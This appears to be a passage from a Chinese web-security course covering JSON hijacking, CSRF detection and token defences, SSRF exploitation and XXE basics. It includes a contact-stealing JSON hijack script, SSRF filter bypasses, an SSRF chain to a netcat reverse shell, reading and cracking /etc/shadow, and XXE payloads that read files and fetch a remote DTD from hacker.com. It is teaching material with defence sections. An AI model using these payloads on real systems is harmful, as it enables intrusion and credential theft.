<script> //在网页添加一个 table 表去显示劫持到的联系人信息 var table = document.createElement('table'); table.id = 'content'; table.cellPadding = 3; table.cellSpacing = 1; table.border = 0; // 重新定义 Array 构造器 function Array() { var obj = this; var ind = 0; var getNext; getNext = function(x) { obj[ind++] setter = getNext; // 将数组元素的 setter 定义为 getNext 函数 if(x) { var str = x.toString(); // 获取 JSON 数据并转换成字符串 if ((str != 'ct')&&(typeof x != 'object')&&(str.match(/@/))) { var row = table.insertRow(-1); // 指定行尾部 var td = row.insertCell(-1); // 指定列尾部 td.innerHTML = str; // 插入到表格中 } } }; this[ind++] setter = getNext; } function readGMail() { document.body.appendChild(table); } </scirpt> <script src="http://mail.google.com/mail/?_url_scrubbed_"></script>
从以上代码中我们可以总结整个攻击流程：
- 通过
<script>加载目标 JSON 对象到页面中； - 覆写 Array 对象，并设置数组元素的 setter 为 getNext 函数，有时也可以使用 Object.prototype.__defineSetter__来覆盖 setter；
- getNext 函数读取包含联系人信息的 JSON 信息。
执行回调函数
不同域名之间传递数据时，无法通过 JavaScript直接跨域访问，因此需要在访 问脚本的请求中指定一个回调函数，用于处理 JSON数据。正因如此，攻击者也 可以利用它来劫持其他域返回的数据。这种攻击方式是当前JSON 劫持中最为常 见的方式。
以前的 QQ 网购就曾出现过这种 JSON 劫持漏洞，其利用代码如下：
<html>
<body>
<script>
function any(obj){
alert(obj);
}
</script>
<script src='http://act.buy.qq.com/w/newbie/queryisnew?callback=any' ></script>
</body>
</html>
通过 callback 参数指定返回数据的处理函数 any，在 any 函数中，你可以根 据JSON数据内容执行特定的处理，获取你想要的数据然后回传到自己控制的服务 器上。
CSRF 检测方法
通过前面对 CSRF 原理的讲解，测试思路就很容易了：
- 抓包记录正常的 HTTP 请求；
- 分析 HTTP 请求参数是否可预测，以及相应的用途；
- 去掉或更改 referer 为第三方站点，然后重放请求；
- 判断是否达到与正常请求的同等效果，若是则可能存在 CSRF 漏洞，反之则不存在。
自动化的测试思路也是一样的实现方法，只不过很多时候不知道请求参数的实际 用途，比较难评估其危害和价值。正如前面所说的，CSRF的危害取决于参数用途， 这也导致很多时候需要人工验证，不然很容易误报。我个人认为，目前没有特别 好的自动化CSRF 检测工具，大多是一些半自动的辅助类工具，比如 BurpSuite 上的 CSRF PoC 生成功能。
图 7：BurpSuite 的 CSRF PoC 生成功能
防御 CSRF
防御 CSRF的关键思路就是令请求参数不可预测，所以常用的方法就是在敏感操 作请求上使用POST 代替 GET，然后添加验证码或 Token 进行验证。
这里不推荐 referer（即请求头中的来源地址）限制方法，因为通过 javascript:// 伪协议就能以空 referer的形式发起请求，很容易绕过限制。如 果你直接禁止空 referer，一些移动 App上的请求又可能无法完成，因为移动 App 上的 http/https 请求经常是空referer。
验证码
在一些重要的敏感操作上设置验证码（短信、图片等等），比如更改密码（此场 景下也可要求输入原密码，这也是不可预测值）、修改个人资料等操作时。
图 8：修改绑定手机号增加短信验证
Token 验证
对于 CSRF 的防御，Token 验证无疑是最常用的方法，它对用户是无感知的，体 验上比验证码好太多了。
在提交的表单中，添加一个隐藏的Token，其值必须是保证不可预测的随机数， 否则没有防御效果。下面是服务器生成并返回给当前用户的：
<input type = "hidden" value="afcsjkl82389dsafcjfsaf352daa34df" name="token" >
提交表单后，会连同此 Token 一并提交，由服务器再做比对校验。
生成 Csrf Token 的算法，常常会取登录后 cookie 中的某值作为输入，然后采用一些加密/哈希算法生成，这也是为了方便后台校验和区分用户。
除了 Cookie Token，还可以使用伪随机值的 Session Token，即服务端生成一 个伪随机数，存储到 $_SESSION 中，然后返回给用户的页面中隐藏此 Token； 等用户提交后，再拿它与存储在 $_SESSION 的 Token 值比较。这是当前比较常 用的 Token 生成与校验方式。
对于 PHP 网站，推荐使用 OWASP CSRFProtector，我们来看它是如何生成和校验 Token 的。
首先调用 random_bytes 函数、openssl_random_pseudo_bytes 函数或是 mt_rand 函数随机生成 Token，长度可配置，默认 128 位:
/* * Function: generateAuthToken * function to generate random hash of length as given in parameter * max length = 128 * * Parameters: * length to hash required, int * * Returns: * string, token */ public static function generateAuthToken() { // todo - make this a member method / configurable $randLength = 64; //if config tokenLength value is 0 or some non int if (intval(self::$config['tokenLength']) == 0) { self::$config['tokenLength'] = 32; //set as default } // 先用 radndom_bytes 生成随机数，没有的话再调用 openssl_random_pseudo_bytes，再没有的话就调用 mt_rand if (function_exists("random_bytes")) { $token = bin2hex(random_bytes($randLength)); } elseif (function_exists("openssl_random_pseudo_bytes")) { $token = bin2hex(openssl_random_pseudo_bytes($randLength)); } else { $token = ''; for ($i = 0; $i < 128; ++$i) { $r = mt_rand (0, 35); if ($r < 26) { $c = chr(ord('a') + $r); } else { $c = chr(ord('0') + $r - 26); } $token .= $c; } } return substr($token, 0, self::$config['tokenLength']); // 截取指定长度的 token }
然后将生成的 Token 存储到 $_SESSION 和 $_COOKIE 中：
/* * Function: refreshToken * Function to set auth cookie * * Parameters: * void * * Returns: * void */ public static function refreshToken() { $token = self::generateAuthToken(); if (!isset($_SESSION[self::$config['CSRFP_TOKEN']]) || !is_array($_SESSION[self::$config['CSRFP_TOKEN']])) $_SESSION[self::$config['CSRFP_TOKEN']] = array(); //set token to session for server side validation array_push($_SESSION[self::$config['CSRFP_TOKEN']], $token); //set token to cookie for client side processing setcookie(self::$config['CSRFP_TOKEN'], $token, time() + self::$cookieExpiryTime, '', '', (array_key_exists('secureCookie', self::$config) ? (bool)self::$config['secureCookie'] : false)); }
在 form 表单中插入隐藏的 Token 值：
$hiddenInput = '<input type="hidden" id="' . CSRFP_FIELD_TOKEN_NAME.'" value="' .self::$config['CSRFP_TOKEN'] .'">' .PHP_EOL;
......
$buffer = str_ireplace('</body>', $hiddenInput . '</body>', $buffer);
用户提交表单后，会将上述 Token 一并提交，最后由服务器对比用户提交的 Token 与 $_SESSION 中存储的 Token：
/* * Function: isValidToken * function to check the validity of token in session array * Function also clears all tokens older than latest one * * Parameters: * $token - the token sent with GET or POST payload * * Returns: * bool - true if its valid else false */ private static function isValidToken($token) { if (!isset($_SESSION[self::$config['CSRFP_TOKEN']])) return false; if (!is_array($_SESSION[self::$config['CSRFP_TOKEN']])) return false; foreach ($_SESSION[self::$config['CSRFP_TOKEN']] as $key => $value) { if ($value == $token) { // Clear all older tokens assuming they have been consumed foreach ($_SESSION[self::$config['CSRFP_TOKEN']] as $_key => $_value) { if ($_value == $token) break; array_shift($_SESSION[self::$config['CSRFP_TOKEN']]); } return true; } } return false; }
这就是 CSRF Token 生成与校验的思路，总结下，先由服务端生成随机数作为 Token，然后存储到 Session 中，不一定都非要存储到 Cookie中，然后在返回 给用户的表单中插入隐藏的 Token，用户提交后，由服务器来比对提交的 Token 与 Session 中的 Token 是否一致，以此判断请求是否合法。
总结
本讲主要介绍了 CSRF的产生原理、攻击手法、检测与防御方法，也列举了一些 真实存在的企业漏洞进行讲解。同时，我还介绍了第三方 CSRF 防御库 CSRFProtector，从源码的角度详细分析了 CSRF Token 生成与校验原理，这是 防御 CSRF 最有效也是最常用的方法。
理解 CSRF 的难点就在于，它不是为了窃取用户的登录凭证（cookie等），而是 直接利用用户已经登录过网站而留存在浏览器上的凭证，诱使用户访问恶意链接， 借助登录凭证去执行敏感操作，整个攻击过程是在用户的浏览器上完成的。
在下一讲，我将给你介绍 SSRF，它与 CSRF有一些相同的特点，但攻击目标不是 用户，而是服务器，期待在下一讲中与你相见。
SSRF 漏洞：外网隔离就绝对安全了吗
上一讲我们介绍了 CSRF漏洞的产生原理、攻击手法、检测与防御手段，这一讲 开始我会向你介绍 SSRF。
从名字来看，SSRF 跟 CSRF就有点相近，其实它们的技术原理也有相似之处，但 攻击目标是完全不同的：SSRF是针对服务端的攻击。
想知道更具体的技术细节吗？跟我一块学习下面的内容吧！
什么是 SSRF 漏洞？
SSRF（Server-Side Request Forgery，服务端请求伪造）是指攻击者向服务端 发送包含恶意 URL 链接的请求，借由服务端去访问此 URL，以获取受保护网络 内的资源的一种安全漏洞。SSRF 常被用于探测攻击者无法访问到的网络区域， 比如服务器所在的内网，或是受防火墙访问限制的主机。
SSRF 漏洞的产生，主要是因为在服务端的 Web 应用，需要从其他服务器拉取数 据资源，比如图片、视频、文件的上传/下载、业务数据处理结果，但其请求地 址可被外部用户控制。
请求地址被恶意利用的话，如下图所示，就能够以服务端的身份向任意地址发起 请求，如果是一台存在远程代码执行漏洞的内网机器，借助SSRF 漏洞就可以获 取该内网机器的控制权。
图 1：SSRF 原理
所以说，在 SSRF 漏洞面前，哪怕是外网隔离的内网机器也无法保证绝对的安全。
以 Pikachu 靶场中的SSRF（curl）题目为例，如下图中，点击“累了吧，来读 一首诗吧”之后会发起以下请求：
http://localhost:8080/vul/ssrf/ssrf_curl.php?url=http://127.0.0.1/vul/vul/ssrf/ssrf_info/info1.php
图 2：Pikachu SSRF（curl）
注意其中的 url 参数， 如果我们将其修改为 “http://baidu.com” ：
http://localhost:8080/vul/ssrf/ssrf_curl.php?url=http://baidu.com
那么它就会打开百度，这是服务端在向百度发起请求，并将返回内容回显到页面上的结果。
图 3：利用 SSRF 向百度发起请求
查看 ssrf（curl）题目的 php源码，你会发现源码中本就有一些注释和利用思 路的测试：
<?php
......
$PIKA_ROOT_DIR = "../../";
include_once $PIKA_ROOT_DIR.'header.php';
//payload:
//file:///etc/passwd 读取文件
//http://192.168.1.15:22 根据 banner 返回,错误提示,时间延迟扫描端口
if(isset($_GET['url']) && $_GET['url'] != null){
//接收前端 URL 没问题,但是要做好过滤,如果不做过滤,就会导致 SSRF
$URL = $_GET['url'];
$CH = curl_init($URL);
curl_setopt($CH, CURLOPT_HEADER, FALSE);
curl_setopt($CH, CURLOPT_SSL_VERIFYPEER, FALSE);
$RES = curl_exec($CH);
curl_close($CH) ;
//ssrf 的问题是:前端传进来的 url 被后台使用 curl_exec()进行了请求,然后将请求的结果又返回给了前端
//除了 http/https 外,curl 还支持一些其他的协议 curl --version 可以查看其支持的协议,telnet
//curl 支持很多协议，有 FTP, FTPS, HTTP, HTTPS, GOPHER, TELNET, DICT, FILE 以及 LDAP
echo $RES;
}
?>
漏洞的产生正是将 GET 参数 url 直接传递给 curl_exec 去访问，并调用 echo 将请求结果输出到页面，这正是设置 “url=http://baidu.com” 后，会打开百度 的原因。
SSRF 的危害
基于前面介绍的 SSRF 原理，我们可以梳理出它可能出现的一些危害。
- 内网探测 ：对内网服务器、办公机进行端口扫描、资产扫描、漏洞扫描。
- 窃取本地和内网敏感数据 ：访问和下载内网的敏感数据，利用 File协议访 问服务器本地文件。
- 攻击服务器本地或内网应用 ：利用发现的漏洞进一步发起攻击利用。
- 跳板攻击 ：借助存在 SSRF漏洞的服务器对内或对外发起攻击，以隐藏自己 真实 IP。
- 绕过安全防御 ：比如防火墙、CDN（内容分发网络，比如加速乐、百度云加 速、安全宝等等）防御。
- 拒绝服务攻击 ：请求超大文件，保持链接 Keep-Alive Always。
你可以自己发挥脑洞去挖掘更多的可能的攻击场景，欢迎在留言区留言、讨论。
常见的利用与限制绕过方法
说了这么多，那我们来看一下 SSRF 漏洞常见的利用方法和绕过限制的手段。
1.利用支持的 URL Schema 发起请求伪造
不仅仅只是常见的 http/https 协议，OWASP 曾整理过一份相对比较完整的 URL Schema，这里我发出来供你参考一下：
图 4：常用于 SSRF 的 URL Scheme
在利用初期，你可以尝试下目标支持哪些 URL Schema，但有一点需要提醒下：* 有些应用会自定义一些 URL Schema，如果它支持本地或网络地址请求，要注意 避免遗漏掉*。
2.读取本地文件
从图 4 可以看到，除了 http/https 协议外，File也是各场景通用的伪协议， 利用它我们可以读取服务器的本地文件，比如/etc/passwd、 /proc/self/environ……
图 5：利用 SSRF 读取服务器本地文件
3.攻击内网应用漏洞
前期可以利用 SSRF 漏洞对内网存活 IP或域名进行漏洞扫描。以前在公司就曾 遇到过这样一种情况：有些业务为了测试，在内网搭建了一些存在漏洞；或是有 漏洞没有及时修复，理由是在内网没影响。然后，有一些被外部SSRF 漏洞打进 来了，利用了 Struts2 漏洞控制了内网服务器。
比如内网有一台存在代码执行漏洞（http://192.168.x.x/vul.php?cmd=whoami） 的服务器未开外网，那么攻击者就可以利用SSRF 漏洞来攻击该内网服务器。以 Pikachu 靶场SSRF（curl）题目为例，可以构造如下链接来获取内网服务器的 shell控制权限：
http://localhost:8080/vul/ssrf/ssrf_curl.php?url=http://192.168.x.x/vul.php?cmd=nc [攻击者 ip] 4444 –e /bin/bash;
4.绕过 IP 限制
有些网站可能会限制访问 IP，此时就可以尝试使用以下方法绕过：
- IPv6 地址 ，如 http://2000::1:2345:6789:abcd；
- 十进制 IP ，如 http://2130706433，相当于 127.0.0.1；
- 八进制 IP ，如 http://0177.0.0.01，相当于 127.0.0.1；
- 十六进制 IP ，如 http://0x7f.0x0.0x0.0x1，相当于 127.0.0.1；
- 多进制混合 IP ，如 http://0177.0x0.0x0.1，相当于 127.0.0.1；
- Localhost 替代 ，如http://127.127.127.127、http//0.0.0.0、 http://127.1 等。
5.绕过 URL 解析限制
如果存在 URL 限制，可以尝试以下方法绕过：
- 使用其他可用的协议 ，可参考图 4 进行测试；
URL 欺骗方式 ，如
http://127.1.1.1@127.2.2.2、http://evil$google.com、http://google.com#@evil.com……
- 302 跳转切换协议 ，如请求头注入"Location: dict://lagou.com"
- Unicode 转换 ，如 http://evil.c ℀.office.com
以上我向你介绍了一些常见的 SSRF限制策略与绕过手段，这些情况还是比较常 用的，甚至有些漏洞修复后，用上述方法又被绕过了。掌握限制绕过方法也是挖 掘SSRF 漏洞的必备技巧，下面，我再来带你了解下如何挖掘 SSRF 漏洞。
SSRF 漏洞挖掘思路
要进行 SSRF 漏洞的防御，我们先要判断是否存在 SSRF 漏洞。
1.如何判断是否存在 SSRF 漏洞
判断 SSRF 漏洞是否存在，主要有以下 4 种方式：
- 回显判断 ：如图 3 那种有返回请求结果并会显示出来，这种比较好判断。
- 访问日志检查 ：伪造请求到自己控制的公网服务器，然后在服务器上查看 访问日志是否有来自漏洞服务器的请求，或者直接使用命令“nc -lvp”来监 听请求。
- 延时对比 ：对比访问不同 IP/域名的访问时长，比如对百度与Google（国 内访问受限）的访问时间，访问百度的时间通常比Google快，若是则可能存在 漏洞。
- DNS 请求检测 ：自己搭建 DNS 服务器，或者利用网上的 DNSLog服务（比如 http://www.dnslog.cn/），生成一个域名（l08bgh.dnslog.cn）用于伪造请求， 看漏洞服务器是否发起DNS 解析请求，若成功访问在 DNSLog.cn 上就会有解 析日志。
构建以下链接，访问后再 DSNLog 上就会看到相应的解析日志了：
http://localhost:8080/vul/ssrf/ssrf_curl.php?url=http://l08bgh.dnslog.cn
图 6：DNSLog 请求日志
2.容易出现 SSRF 漏洞的业务场景
以上我向你介绍了 SSRF 的危害，哪些地方比较容易出现 SSRF 漏洞呢？我主要分了 4 个方面来说。
- 凡是能够对外发起网络请求的地方，且地址可被用户可控的，都有可能存在 SSRF 漏洞。 比如 RSS 订阅、字幕下载、支持输入 URL的功能、嵌入远程图 片、收取第三方邮箱邮件。一些不明显的地方，可以通过爬包分析，从参数名 来猜测，比如url、domain、site、src、target 等常见关键词来做进一步地 测试验证。
- 文件处理功能。 比如负责处理音视频的 ffmpeg，负责处理图片的
ImageMagic、处理办公文件的Office，PDF 文档解析功能，还有 XML解析器等
地方，尤其是 ffmpeg 和 ImageMagic，它们曾多次出现过 SSRF漏洞。
ffmpeg 在解析 mp4 文件时就曾出现过以下漏洞，构造一个包含以下内容的 mp4文件，上传到支持音频解析的网站就可能造成 SSRF漏洞。 这种应用漏洞 记得平时多收集，在实际渗透测试时非常有用 。
#EXTM3U #EXT-X-MEDIA-SEQUENCE:0 #EXTINF:10.0,http://192.168.123.100:8080/1.html #EXT-X-ENDLIST
- 社交分享功能 ， 社交分享也是容易出现 SSRF 漏洞的地方。
- 信息采集功能 ，比如图片、文章收藏、网页快照、网页翻译、网页剪裁。
我这里只是列举一些常见的场景，很难完全覆盖 SSRF容易出现漏洞的场景，但 核心思路就是理解业务功能，判断其是否存在对外发起网络请求，若是存在就有 可能存在SSRF 漏洞，然后进一步实际验证下，可以用下面介绍的 Burp Collaborator作验证。
检测 SSRF 的通用方法和工具
1.方法：Burp Collaborator
这里我介绍个检测 SSRF的通用方法，无法是否有回显都适用的，也是我个人比 较喜欢用的，那就是 Burp Collaborator。BurpSuite 默认提供 Collaborator Server 用于实现 DNS解析，在一些无回显的安全测试中，会将解析日志返回给 BurpSuite。
不仅仅用于 SSRF，一些无回显的漏洞测试也同样适用，比如 SQL 注入。
图 7：BurpSuite 默认提供 Collaborator Server 作为 DNS 解析服务器
关于 Burp Collaborator 原理，我们可以看下面这张图：
图 8：Burp Collaborator 原理
图中可以看到，先利用 SSRF 漏洞让目标应用向 Burp 提供的 DNS 解析服务器 Burp Collaborator Server 发起请求，然后 Burp Collaborator Server会查询 对应的 DNS 请求记录并返回给 BurpSuite，从而帮助测试者判断 SSRF漏洞是否 存在。
仍以前面的靶场题目为例，打开 Burp Collaborator Client：
图 9：选择菜单“Burp Collaborator client”
图 10：Burp Collaborator client
点击“Copy to clipboard”获取生成的域名，我这里生成的是 “c3g9ga6x5zdxijo5d3aifxv6nxtnhc.burpcollaborator.net”，我们就可以构 造如下利用链接：
http://localhost:8080/vul/ssrf/ssrf_curl.php?url=http://c3g9ga6x5zdxijo5d3aifxv6nxtnhc.burpcollaborator.net
访问后回到 Burp Collaborator client，点击“Poll now”就可以看到 DNS请 求记录，这说明存在 SSRF 漏洞。
图 11：获得 DNS 请求日志证明存在 SSRF 漏洞
这个检测方法比较通用简单，且无须自己搭建 DNS服务器，非常方便，我强烈推 荐。
2.工具：SSRFmap
这里给大家介绍一款 SSRF检测工具：SSRFmap，利用它可检测与利用SSRF 漏洞， 同时它也整合了一些常用漏洞可以结合 SSRF 去利用，比如fastjson、mysql、 github的一些历史漏洞，还有端口扫描、读取文件等利用功能，都是实用的漏洞 利用能力。
使用上会比 Burp Collaborator 便捷，但检测能力上其实没有 Burp Collaborator 那样准确，SSRFmap 有时会利用失败。所以个人推荐使用 Burp Collaborator 用来检测 SSRF 是否存在，再使用 SSRFmap做一些漏洞利用，比 如读取敏感文件等操作。
SSRFmap 是以 HTTP 请求数据作为文件输入，使用命令如下：
图 12：SSRFmap
用其自带的测试用例，试用下：
FLASK_APP=data/example.py flask run & python ssrfmap.py -r data/request.txt -p url -m readfiles
其中 data/request.txt 内容如下：
POST /ssrf HTTP/1.1 Host: 127.0.0.1:5000 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate Referer: http://mysimple.ssrf/ Content-Type: application/x-www-form-urlencoded Content-Length: 31 Connection: close Upgrade-Insecure-Requests: 1 url=https%3A%2F%2Fwww.google.fr%
它会读取很多敏感文件，比如 /etc/passwd、/etc/hosts：
图 13：利用 SSRFmap 读取本地文件
以上我们测试了，然后读取了敏感文件，然后好像就戛然而止了，读取之后就没 有下文了。比如你想破解主机密码，就可以读取文件/etc/shadow 以获得用户名 和密码密文，然后就可以用 john 去破解密码：
$ sudo cat /etc/shadow root:$6$TBFgG/seGvOG8nOp$LvZXXXXXXXENV2F6SEATplyE1QY33W2buEs10XLi.zQD8iwl.kCwsD.OMQ6WWkmUdu/9RPLHvLYSzMfcLj0:18446:0:99999:7::: daemon:*:18375:0:99999:7::: bin:*:18375:0:99999:7::: sys:*:18375:0:99999:7::: ……
加密的密码具有固定格式：
$id$salt$encrypted
- id：表示加密算法，1 代表 MD5，5 代表 SHA-256，6 代表 SHA-512。
- salt：表示密码学中的 Salt，由系统随机生成 。
- encrypted：表示密码的 hash。
冒号后面的数值是一些日期和密码修改间隔天数的信息，可以不用管，以上述示 例中root 账号为例：
root:$6$TBFgG/seGvOG8nOp$LvZXXXXXXXENV2F6SEATplyE1QY33W2buEs10XLi.zQD8iwl.kCwsD.OMQ6WWkmUdu/9RPLHvLYSzMfcLj0 id=6，即使用SHA-512哈希算法 salt=TBFgG encrypted=seGvOG8nOp$LvZXXXXXXXENV2F6SEATplyE1QY33W2buEs10XLi.zQD8iwl.kCwsD.OMQ6WWkmUdu/9RPLHvLYSzMfcLj0
接下来我们可以直接使用 john 去破解 shadow 文件：
# 安装John the Ripper $ sudo apt install john $ john John the Ripper password cracker, version 1.8.0 Copyright (c) 1996-2013 by Solar Designer …… # 暴力破解获取的shadow文件中的账号密码 $ sudo john ./shadow
之后就是时间的等待，暴力破解有时看运气了，运气好的话我们就拿到服务器的登录账号和密码了。
SSRFmap 会有一些问题，比如 Pikachu 靶场中的SSRF（curl）题目就没利用成 功，而且 portscan 利用模块开启后就死循环，停不下来。这些都是工具的Bug， 在测试时我们不能完全依赖工具，还是得自己多手工验证。
SSRF 漏洞防御
有时基于业务功能需要，无法完全限制对外网络请求的功能，这就一定要依据业 务场景做一些灵活的变通，不可一刀切。
这里介绍一些常用的 SSRF 防御方法：
- 采用白名单限制，只允许访问特定的 IP 或域名，比如只允许访问拉勾网域名 *.lagou.com；
- 限制内网 IP 访问，常见的内网 IP 段有 10.0.0.0 - 10.255.255.255、 172.16.0.0 - 172.31.255.255、192.168.0.0 - 192.168.255.255；
- 禁用一些不必要的协议，比如 file://、gopher://、dict://。
另外关闭错误回显、关闭高危端口、及时修复漏洞，哪怕它是处于内网环境，都 有助于缓解SSRF 漏洞的进一步利用。
总结
这一讲我主要介绍了 SSRF漏洞的产生原理和危害，然后介绍了利用与绕过网站 限制的一些方法，最后介绍了SSRF 漏洞挖掘与防御方法。
从 SSRF 名字来看，很容易令人感觉这没有什么危害，甚至有些企业、政府金融 机构也认为有些网络请求是正常功能，因此觉得SSRF 不算漏洞。
Facebook 曾为一个 SSRF 漏洞支付过 31500 美金，相当于 20万人民币的奖励。 同时，在 2017 年 Orange Tsai分享的议题 “A New Era of SSRF – Exploiting URL Parsers in Trending Programming Languages”，演示了利用 SSRF 漏洞实现 Github远程代码执行的攻击方法。 GitHub 为此奖励了 12500美金，该技术在当年的“Top 10 Web Hacking Techniques of 2017”评选中获得第一名。这些都表明了 SSRF的危害，以及一 些国际大厂对 SSRF 漏洞的重视。
最近有位国外安全研究员在 Twitter 上公开了一张 SSRF漏洞的挖掘、利用、绕 过技术的总结图，这里推荐给你。https://twitter.com/TodayCyberNews/status/1591226736586674176
图 14：SSRF Search & Destory
最后我要推荐一篇文章《SSRF引发的血案》，通过信息收集、SSRF漏洞、旁站路 径泄露，最终获取目标网站的 root shell。这篇文章很有实战参考意义，既体 现出了信息收集的重要性，又表明了SSRF 的危害。
在 SSRF 漏洞的检测和防御中，如果你遇到了什么问题，欢迎在评论区留言。
下一讲，我将带你了解 XXE漏洞，它是一种帮助计算机理解信息符号并处理各种 信息的语言，主要用来传递结构化的数据信息。
XXE 漏洞：XML 解析器的坑
上一讲我们介绍了 SSRF漏洞，一种专门针对服务端的请求伪造攻击，常被用于 攻击内网。在里面我介绍了 Burp Collaborator 用于专门测试无回显漏洞的功能， 在本讲的 XXE漏洞测试中，我们依然可以使用，不知道你是否还记得怎么使用？
下面，我们就开始今天的课程，一场关于 XML 外部实体注入（XXE）漏洞的攻防之路。
XXE：XML 外部实体注入
XXE（XML External Entity，XML外部实体注入）正是当允许引用外部实体时， 通过构造恶意内容，导致读取任意文件、执行系统命令、内网探测与攻击等危害 的一类漏洞。
是不是想到了上节课讲的 SSRF？没错，利用 XXE 可以造成 SSRF。
PHP 默认使用 libxml 来解析 XML，但是从 libxml 2.9.0开始，它默认不再解 析外部实体，导致 PHP 下的 XXE漏洞已经逐渐消失，除非你指定 LIBLXML_NOENT 去开启外部实体解析，才会存在 XXE 漏洞。
simplexml_load_string($xml, 'SimpleXMLElement', LIBXML_NOENT);
本文也不打算再讲 PHP 环境下的 XXE 漏洞，Java 才是 XXE 漏洞最常见的语言， 因此主要以 Java 为例做一些介绍。但在漏洞利用的实例演示上，我依然用 Pikachu 靶场的 XXE题目（PHP），因为 XXE 在利用上与语言无关，无论是 php、 java 还是C、python，利用技巧都是一样的。
那么，什么是 XML？
XML（Extensible Markup Language）意为可扩展性标记语言，我将介绍下 XML 的一些基础知识，方便你更好地理解漏洞原理。
1.XML 文档结构
XML 文档结构包括 XML声明、文档类型定义（DTD）、文档元素，具体可以参考 以下示例。
<!--XML声明--> <?xml version="1.0"?> <!--文档类型定义--> <!DOCTYPE people [ <!--定义此文档是 people 类型的文档--> <!ELEMENT people (name,age,mail)> <!--定义people元素有3个元素--> <!ELEMENT name (#PCDATA)> <!--定义name元素为“#PCDATA”类型--> <!ELEMENT age (#PCDATA)> <!--定义age元素为“#PCDATA”类型--> <!ELEMENT mail (#PCDATA)> <!--定义mail元素为“#PCDATA”类型--> ]]]> <!--文档元素--> <people> <name>john</name> <age>18</age> <mail>john@qq.com</mail> </people>
三者其中，与 XXE漏洞相关的主要在于文档类型定义（DTD），所以下面主要重 点来介绍下 DTD。
2.DTD 实体声明
DTD（Document Type Definition，文档类型定义）用于定义 XML文档结构，包 括元素的定义规则、元素间的关系规则、属性的定义规则，其定义结构如下：
<!DOCTYPE 根元素 [定义内容]>
DTD 实体就是变量，它既可以在文档内部声明，也可以外部引用，供在 XML 文 档里面去使用。
- 内部实体声明
内部声明采用如下格式定义：
<!ENTITY 实体名 "实体值">
声明之后就可以通过“&实体名;”来获取，示例如下：
<!DOCTYPE foo [ <!ENTITY test "john"> ]> <root> <name>&test;</name> </root
- 外部实体引用
XXE 的产生正是外部实体引用的结果，可分为普通实体和参数实体。
（1）普通实体 声明格式如下：
<!ENTITY 实体名 SYSTEM "URI"> 或者 <!ENTITY 实体名 PUBLIC "public_ID" "URI">
举个例子：
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
声明实体 xxe，用于读取 /etc/passwd 文件，然后通过 &xxe; 来引用执行。
（2）参数实体 声明主要用于后续使用，与普通实体不同的是，它中间有百分号字符（%），其声明格式如下：
<!ENTITY % 实体名称 "实体的值"> 或者 <!ENTITY % 实体名称 SYSTEM "URI">
举个例子：
<!DOCTYPE foo [
<!ENTITY % xxe SYSTEM "http://hacker.com/evil.dtd" >
%xxe;
]>
<root>
<name>&evil;</name>
</root>
xxe.dtd 内容如下：
<!ENTITY evil SYSTEM "file:///etc/passwd">
上面先声明 xxe 参数实体，引入外部实体 "http://hacker.com/evil.dtd" ， 里面声明了一个叫 evil 的实体，用于读取/etc/passwd 文件，最后在通过 &evil; 来引用执行。
在不同的语言中其支持协议还不一样，需要根据业务场景来实测，常见的协议有 file、http、ftp、https、except 等等。
危害：XXE 的常见攻击手段
下面介绍一些 XXE 漏洞的常见利用方法，并提供一些 payload 测试用例，测试 仍以 Pikachu XXE 题目作为演示。
1.内网攻击
XXE 支持 http 等 URL，所以同样可以产生与 SSRF 一样效果，对内网进行指纹 探测、端口扫描、漏洞攻击等行为。
比如以下的 payload：
通过一个 SYSTEM 指定一个 URL 进行访问
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "http://192.168.31.124:4444/test">
]>
<x>&xxe;</x></r>
由于不存在该端口，所以会出错误：
图 1 探测内网端口失败
成功的话，会返回空白，通过这种对比差异，可以判断是否利用成功：
图 2 探测内网端口成功
2.读取本地文件
通过 file:// 可以读取本地文件，造成敏感文件泄露：
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<x>&xxe;</x>
输入上述 XML 提交后，成功读取到 /etc/passwd 文件内容：
图 3 利用XXE漏洞读取 /etc/passwd
3.远程执行命令
如果是 PHP 环境下并安装 except扩展，就可以利用它执行系统命令了。这种情 况现在已经比较少见了，更多还是要利用其他漏洞来实现命令或代码执行。
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "except://id">
]>
<x>&xxe;</x>
XXE 漏洞利用工具
1.XXEinjector
推荐一款综合型的 XXE漏洞利用工具XXEinjector，用Ruby 开发，运行前需要先 安装 ruby。
sudo apt install ruby
通过输入请求包数据，并指定攻击行为，比如列目录、读文件等。
$ cat req.txt 1 ↵ GET /mmpaymd/ordercallback HTTP/1.1 Host: 100.95.204.69:8081 Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8 Accept-Encoding: gzip, deflate Accept-Language: zh,zh-CN;q=0.9,en;q=0.8 Cache-Control: max-age=259200 Connection: keep-alive
常用命令如下：
图 4 XXEinjector 常用命令
不过，不能完全依赖于XXEinjector，因为之前我在测试时，发现它也有利用不 成功的情况，需要自己多测试验证下。
其他更多 XXE payload，可以参考“XML External Entity (XXE) Injection Payload List”。
2.XXExploiter
如果你记不住上面那些 XXE payload，还有个工具可以帮你生成，一款集 payload生成与发包利用的 XXE 利用工具XXExploiter，它可以启动服务提供远 程DTD 文件去实现利用。
比如像下图利用 xxexploiter 读取文体
xxexploiter file /tmp/test.txt -x /tmp/req

图 5 xxeploiter 利用方法
就功能而言，个人觉得它比 XXEinjector 更优秀，生成 payload 的功能还可以 用于辅助手工测试，结合业务场景自己做一些调整。
XXE 漏洞挖掘
1.黑盒测试
XXE 依然如 SSRF 分为有回显、无回显。通过 XXE 可以造成SSRF，所以它的检 测思路与 SSRF 大同小异，比较通用的方式也是构造特定外网服务器的访问请求， 然后查询外网服务器的请求日志，以判断是否请求成功。
